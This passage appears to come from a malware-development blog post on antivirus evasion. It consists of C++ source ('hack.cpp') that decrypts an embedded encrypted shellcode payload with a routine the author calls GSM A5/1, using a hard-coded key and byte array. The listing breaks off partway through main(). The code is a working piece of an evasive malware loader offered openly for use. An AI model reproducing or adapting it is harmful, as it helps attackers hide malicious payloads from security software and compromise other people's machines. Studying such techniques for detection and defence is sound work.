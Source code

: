 Update malware code: delete original shellcode and add just decryption of encrypted payload logic:      

```cpp
/*
 * hack.cpp
 * encrypt/decrypt payload via GSM A5/1 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/03/24/malware-av-evasion-14.html
*/
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROL(x, y) (((x) << (y)) | ((x) >> (32 - (y))))
#define A5_STEP(x, y, z) ((x & y) ^ (x & z) ^ (y & z))

void a5_1_decrypt(unsigned char *key, int key_len, unsigned char *cipher, int cipher_len, unsigned char *out) {
  // initialization
  unsigned int R1 = 0, R2 = 0, R3 = 0;
  for (int i = 0; i < 64; i++) {
    int feedback = ((key[i % key_len] >> (i / 8)) & 1) ^ ((R1 >> 18) & 1) ^ ((R2 >> 21) & 1) ^ ((R3 >> 22) & 1);
    R1 = (R1 << 1) | feedback;
    R2 = (R2 << 1) | ((R1 >> 8) & 1);
    R3 = (R3 << 1) | ((R2 >> 10) & 1);
  }
  // decryption
  for (int i = 0; i < cipher_len; i++) {
    int feedback = A5_STEP((R1 >> 8) & 1, (R2 >> 10) & 1, (R3 >> 10) & 1);
    unsigned char key_byte = 0;
    for (int j = 0; j < 8; j++) {
      int bit = A5_STEP((R1 >> 18) & 1, (R2 >> 21) & 1, (R3 >> 22) & 1) ^ feedback;
      key_byte |= bit << j;
      R1 = (R1 << 1) | bit;
      R2 = (R2 << 1) | ((R1 >> 8) & 1);
      R3 = (R3 << 1) | ((R2 >> 10) & 1);
    }
    out[i] = cipher[i] ^ key_byte;
  }
}

int main() {
  unsigned char key[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};
  unsigned char message[] = {0xe1, 0x51, 0x95, 0xbc, 0x37, 0xfd, 0xcd, 0xe9, 0x58, 0x50, 0x84, 0xfa, 0x2c, 0x21, 0x70, 0xb7, 0xa4, 0xf4, 0x2e, 0x9e, 0xb5, 0x27, 0x62, 0x6d, 0x27, 0xce, 0x7e, 0xfd, 0x6d, 0x6e, 0x01, 0x20, 0xf7, 0xbb, 0xdd, 0x68, 0x40, 0x7c, 0xb9, 0xe0, 0x8d, 0xc8, 0x61, 0x4b, 0xc9, 0xdd, 0x04, 0x1f, 0xe0, 0xe9, 0x55, 0x13, 0x9c, 0x9f, 0x49, 0x25, 0x76, 0xf7, 0x28, 0x4f, 0xbe, 0x05, 0x55, 0x68, 0x69, 0x05, 0xfb, 0xd6, 0x91, 0x9c, 0x6b, 0x26, 0x09, 0xf4, 0x5f, 0x44, 0x3d, 0x33, 0x38, 0x42, 0xc2, 0x2a, 0x80, 0x1a, 0x0c, 0xbd, 0xd4, 0xf3, 0x3c, 0xec, 0x05, 0xeb, 0xd4, 0x10, 0xbb, 0xca, 0x82, 0x01, 0x06, 0x88, 0xe5, 0x65, 0xe3, 0xdc, 0xfe, 0x77, 0x33, 0xf9, 0x64, 0xd7, 0x80, 0x09, 0x84, 0xd5, 0xc9, 0x1c, 0x09, 0xfe, 0xc3, 0x6e, 0x11, 0x0b, 0x36, 0x9c, 0x5c, 0xa1, 0xd6, 0x48, 0x34, 0xe1, 0x08, 0x70, 0xc1, 0xa6, 0x11, 0x91, 0x49, 0x0f, 0x55, 0x15, 0x61, 0x38, 0xe5, 0x70, 0xd9, 0x7e, 0x0d, 0x02, 0x46, 0x74, 0x58, 0xc5, 0x3b, 0xc5, 0x61, 0x76, 0x58, 0x3b, 0x41, 0xa3, 0x00, 0x65, 0x48, 0x0b, 0x80, 0x36, 0xbe, 0x43, 0x9f, 0x18, 0xe8, 0x3e, 0x41, 0x8e, 0x68, 0x5c, 0x08, 0x00, 0xda, 0x6e, 0x11, 0x0b, 0x06, 0x9c, 0x5c, 0xa1, 0xd0, 0x44, 0x5d, 0x69, 0x18, 0x1f, 0x58, 0x50, 0x11, 0x08, 0xc1, 0x5b, 0x55, 0x4e, 0xe8, 0x83, 0xe9, 0x25, 0x69, 0x12, 0xbe, 0xe1, 0x52, 0x11, 0x09, 0xda, 0x3c, 0x5c, 0x9f, 0xb2, 0xe9, 0x4c, 0xfa, 0xd7, 0xbf, 0x1c, 0x48, 0xcd, 0x91, 0x50, 0x80, 0x02, 0x14, 0x2a, 0xe8, 0x8d, 0x90, 0xfb, 0x28, 0x40, 0x41, 0x3f, 0x46, 0xdd, 0xd5, 0x89, 0x03, 0x14, 0x14, 0xe8, 0x31, 0xcc, 0x44, 0x92, 0x05, 0xc2, 0x57, 0x0d, 0xaf, 0x85, 0xc8, 0x33, 0xdd, 0x55, 0x1a, 0xf0, 0xb0, 0xa7, 0x7e, 0xbf, 0x94, 0x4c, 0x6f, 0x3f, 0x27, 0xad, 0x6f, 0x71, 0x7b, 0xd7, 0x21, 0x05, 0x38, 0x76, 0x6e, 0x6f, 0x5f, 0x37, 0x50, 0xc0, 0x10, 0x92};
  int key_len = sizeof(key);
```